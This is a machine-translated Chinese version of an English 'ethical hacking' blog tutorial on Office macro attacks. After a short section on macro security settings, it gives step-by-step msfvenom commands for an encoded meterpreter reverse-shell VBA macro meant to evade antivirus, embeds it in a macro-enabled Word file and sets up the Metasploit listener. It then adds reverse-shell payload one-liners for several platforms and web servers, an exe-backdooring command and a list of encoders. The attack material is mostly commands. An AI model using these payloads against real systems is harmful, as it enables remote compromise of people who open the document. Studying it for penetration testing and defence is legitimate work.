

# Microsoft Office 宏攻击

> 原文：<https://levelup.gitconnected.com/ethical-hacking-part-13-office-macro-attacks-3a8a0cad14b7>

## 了解风险以防止攻击的道德黑客行为——使用 Microsoft Office 宏安装反向外壳


这是我上一篇文章“道德黑客(第 7 部分):Metasploit 渗透测试框架”的续篇。我建议您先阅读该内容，因为我将对您的 Metasploit 和 Venom 知识做出假设。

## 什么是 Office 宏？

它们是一系列命令和说明，您可以将它们组合成一个命令来自动完成任务。它们是在 Office 产品中用 Office Visual Basic (VBA)编写的。如果使用得当，它们非常有用。不幸的是，它们可能被利用并带来灾难性的后果，所以我将解释如何减轻和管理这种攻击。有些公司真的依赖宏，所以这不仅仅是说禁用所有宏那么简单。

## **宏安**

我在 Mac 上安装了 Office。宏设置可以通过点击“**字**”应用菜单，然后“**首选项**”，然后“**安全**”找到。


推荐的选项是一种中间立场，即“**禁用所有微处理器并通知**”。如果您不是开发人员，您应该禁用“**信任对 VBA 项目对象模型的访问**”。


如果你是 Windows 用户，你还有一个额外的功能叫做“**信任中心**”。如果你的公司大量使用宏，你最好使用 Windows 而不是 OSX。

在 Windows 的设置中，可以找到上面的菜单，点击**文件**，然后是**选项**，然后是**信任中心**，然后是**信任中心设置**。


在“**宏设置**菜单下，可能你的最佳选择是“**通知禁用所有宏**”，并禁用“**信任访问 VBA 项目对象模型**”。


“信任中心”在 Windows 上有一个 OSX 没有的功能，那就是“**可信位置**”。这允许公司集中存储可以安全使用的经过审查的宏。这就是为什么我说，如果您的公司大量使用宏，那么最好使用 Windows 来利用“**可信位置**”。



# **我们开始吧……**

*   安装 Kali Linux — [**教程这里**](/ethical-hacking-part-2-introducing-kali-linux-37362fafe28b)
*   安装 Metasploit 渗透测试框架— [**教程此处**](/ethical-hacking-part-7-metasploit-penetration-testing-framework-b768dac407a)

## 正在准备有效负载…

我在我的 [Metasploit 文章](/ethical-hacking-part-7-metasploit-penetration-testing-framework-b768dac407a)中简单提到了毒液，它绝对是一头野兽。

创建一个非常隐蔽的、许多商业病毒扫描程序检测不到的宏有效载荷所需要的就是这样。

```
root@kali:~# **msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=3333 -e x86/shikata_ga_nai -f vba-psh > macro.txt**
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of vba-psh file: 6774 bytes
```

*   "**windows/meter preter/reverse _ TCP**"**是有效载荷**
*   **" **192.168.1.2** "是宏将连接回的主机。这是我局域网上的 Kali 实例。如果你想通过互联网远程工作，这应该是公共可路由的 IP。根据您的网络拓扑，您可能需要配置 NAT 和防火墙规则。**
*   **TCP " **3333** "是 Metasploit 控制台将监听的端口。我说“ **TCP** ”是因为这是一个“ **reverse_tcp** ”有效载荷。如果您愿意，也可以使用“ **reverse_http** ”有效负载。**
*   ****x86/shikata_ga_nai** 是编码器**
*   **" **vba-psh** "是要创建的文件类型**
*   ****macro.txt** 包含宏**

**打开 Word，为自己创建一个虚拟宏。在我 Mac 上的 Word 版本中，我进入了“**工具**”，然后是“**宏**”，然后是“**宏**”。只需创建任何宏，因为我们将用来自“ **macro.txt** ”的宏替换它。确保将 Word 文档保存为“**启用宏的文档**”。该文档将被命名为“**”。docm** " for Word and，" ***。xlsm** "用于 Excel。我怀疑大多数 Office 文档只会在它们的标准文件格式后面加上一个“ **m** ”。当文件被打开时，它将执行利用。**

## **正在准备控制台…**

**正如我已经提到的，我不打算介绍 Metasploit 的安装或基本用法，因为我已经在我的另一篇文章中介绍过了。**

**像这样启动 Metasploit 控制台。**

```
kali@kali:~$ **msfconsole** 

     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||=[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2049 exploits - 1108 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]Metasploit tip: To save all commands executed since start up to a file, use the makerc commandmsf5 >
```

**并且像这样准备连接…**

```
msf5 > **use exploit/multi/handler**
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > **set payload windows/meterpreter/reverse_tcp**
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > **set lhost 192.168.1.2**
lhost => 192.168.1.2
msf5 exploit(multi/handler) > **set lport 3333**
lport => 3333
msf5 exploit(multi/handler) > **exploit**[*] Started reverse TCP handler on 192.168.1.2:3333
```

**控制台中的设置需要与你用毒液创建的有效载荷相匹配。**

**当受害者打开 Office 文档时，宏将运行，您将看到主机连接。当他们这样做的时候，你将拥有一个远程 shell 来访问他们的系统，我已经在我的另一篇文章中介绍过了。**

# **其他有趣的毒液载荷…**

## **双星**

**为 Windows 创建一个简单的 TCP 负载**

```
root@kali:~# **msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=3333 -f exe > example.exe**
```

**为 Windows 创建一个简单的 HTTP 负载**

```
root@kali:~# **msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.1.2 LPORT=3333 -f exe > example.exe**
```

**为 Linux 创建一个简单的 TCP Shell**

```
root@kali:~# **msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=3333 -f elf > example.elf**
```

**为 Mac 创建简单的 TCP 外壳**

```
root@kali:~# **msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.1.2 LPORT=3333 -f macho > example.macho**
```

**为 Android 创建一个简单的 TCP 负载**

```
root@kali:~# **msfvenom -p android/meterpreter/reverse/tcp LHOST=192.168.1.2 LPORT=3333 R > example.apk**
```

## **Web 有效负载**

**为 PHP 创建一个简单的 TCP Shell**

```
root@kali:~# **msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.2 LPORT=3333 -f raw > example.php**
```

**为 ASP 创建一个简单的 TCP 外壳**

```
root@kali:~# **msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=3333 -f asp > example.asp**
```

**为 Javascript 创建简单的 TCP Shell**

```
root@kali:~# **msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.2 LPORT=3333 -f raw > example.jsp**
```

**为 WAR 创建一个简单的 TCP 外壳**

```
root@kali:~# **msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.2 LPORT=3333 -f war > example.war**
```

## **Windows 有效负载**

**在可执行文件中创建后门程序。exe)**

```
root@kali:~# **msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=3333 -f exe > example.exe**
```

**用 shikata_ga_nai 编码器创建一个简单的 TCP 有效负载，就像我们对 VBA 宏所做的那样。**

```
root@kali:~# **msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=3333 -e x86/shikata_ga_nai -b ‘\x00’ -i 3 -f exe > example.exe**
```

**将 exe 与负载绑定并对其进行编码**

```
root@kali:~# **msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=3333 -e x86/shikata_ga_nai -i 3 -b “\x00” -f exe > example.exe**
```

**毒液编码器的完整列表…**

```
root@kali:~# **msfvenom -l encoders**Framework Encoders [--encoder <value>]
======================================Name                          Rank       Description
    ----                          ----       -----------
    cmd/brace                     low        Bash Brace Expansion Command Encoder
    cmd/echo                      good       Echo Command Encoder
    cmd/generic_sh                manual     Generic Shell Variable Substitution Command Encoder
    cmd/ifs                       low        Bourne ${IFS} Substitution Command Encoder
    cmd/perl                      normal     Perl Command Encoder
    cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    cmd/printf_php_mq             manual     printf(1) via PHP magic_quotes Utility Command Encoder
    generic/eicar                 manual     The EICAR Encoder
    generic/none                  normal     The "none" Encoder
    mipsbe/byte_xori              normal     Byte XORi Encoder
    mipsbe/longxor                normal     XOR Encoder
    mipsle/byte_xori              normal     Byte XORi Encoder
    mipsle/longxor                normal     XOR Encoder
    php/base64                    great      PHP Base64 Encoder
    ppc/longxor                   normal     PPC LongXOR Encoder
    ppc/longxor_tag               normal     PPC LongXOR Encoder
    ruby/base64                   great      Ruby Base64 Encoder
    sparc/longxor_tag             normal     SPARC DWORD XOR Encoder
    x64/xor                       normal     XOR Encoder
    x64/xor_context               normal     Hostname-based Context Keyed Payload Encoder
    x64/xor_dynamic               normal     Dynamic key XOR Encoder
    x64/zutto_dekiru              manual     Zutto Dekiru
    x86/add_sub                   manual     Add/Sub Encoder
    x86/alpha_mixed               low        Alpha2 Alphanumeric Mixedcase Encoder
    x86/alpha_upper               low        Alpha2 Alphanumeric Uppercase Encoder
    x86/avoid_underscore_tolower  manual     Avoid underscore/tolower
    x86/avoid_utf8_tolower        manual     Avoid UTF8/tolower
    x86/bloxor                    manual     BloXor - A Metamorphic Block Based XOR Encoder
    x86/bmp_polyglot              manual     BMP Polyglot
    x86/call4_dword_xor           normal     Call+4 Dword XOR Encoder
    x86/context_cpuid             manual     CPUID-based Context Keyed Payload Encoder
    x86/context_stat              manual     stat(2)-based Context Keyed Payload Encoder
    x86/context_time              manual     time(2)-based Context Keyed Payload Encoder
    x86/countdown                 normal     Single-byte XOR Countdown Encoder
    x86/fnstenv_mov               normal     Variable-length Fnstenv/mov Dword XOR Encoder
    x86/jmp_call_additive         normal     Jump/Call XOR Additive Feedback Encoder
    x86/nonalpha                  low        Non-Alpha Encoder
    x86/nonupper                  low        Non-Upper Encoder
    x86/opt_sub                   manual     Sub Encoder (optimised)
    x86/service                   manual     Register Service
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
    x86/single_static_bit         manual     Single Static Bit
    x86/unicode_mixed             manual     Alpha2 Alphanumeric Unicode Mixedcase Encoder
    x86/unicode_upper             manual     Alpha2 Alphanumeric Unicode Uppercase Encoder
    x86/xor_dynamic               normal     Dynamic key XOR Encoder
```

**为了进一步阅读，看看我写的关于这个话题的 19 个故事。**

**

[迈克尔·惠特尔](https://whittle.medium.com/?source=post_page-----3a8a0cad14b7--------------------------------)** 

## **道德黑客培训课程**

**[View list](https://whittle.medium.com/list/ethical-hacking-training-course-710769700b83?source=post_page-----3a8a0cad14b7--------------------------------)****19 stories**************

# **迈克尔·惠特尔**

*   *****如果你喜欢这个，请*** [***跟我上媒***](https://whittle.medium.com/)**
*   *****更多有趣的文章，请*** [***关注我的刊物***](https://medium.com/trading-data-analysis)**
*   *****有兴趣合作吗？*** [***让我们在 LinkedIn 上连线***](https://www.linkedin.com/in/miwhittle/)**
*   *****支持我和其他媒体作者*** [***在此报名***](https://whittle.medium.com/membership)**
*   *****请别忘了为文章鼓掌:)←谢谢！*****